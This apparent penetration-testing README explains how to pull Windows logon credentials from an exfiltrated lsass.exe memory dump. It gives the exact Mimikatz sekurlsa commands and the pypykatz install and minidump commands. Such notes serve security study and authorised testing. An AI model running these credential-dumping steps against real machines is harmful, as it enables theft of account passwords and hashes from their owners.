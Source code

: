 # Using Mimikatz Offline
Guide for Using Mimikatz Offline

## Step 1: Obtain and exfil lsass.exe
First, dump lsass.exe, then exfiltrate it to our machine.

## Step 2: Consider which mimikatz to use
Vanilla mimikatz EXE in Windows?  
Or Pypykatz in Kali?

## Vanilla Mimikatz in Windows
Download mimikatz from https://github.com/gentilkiwi/mimikatz/releases or https://gitlab.com/kalilinux/packages/mimikatz  
Then launch cmd prompt and run the commands below:  
`mimikatz.exe`  
`sekurlsa::minidump C:\folderlocation\lsass.dmp`  
`sekurlsa::logonPasswords`

## Pypykatz in Kali
Run the commands below in kali terminal to download, install and run
`git clone https://github.com/skelsec/pypykatz`  
`cd pypykatz`  
`sudo python3 setup.py install`  
`pypykatz lsa minidump /home/kali/folderlocation/lsass.dmp`  

## References
https://github.com/skelsec/pypykatz/wiki/lsa-minidump-command
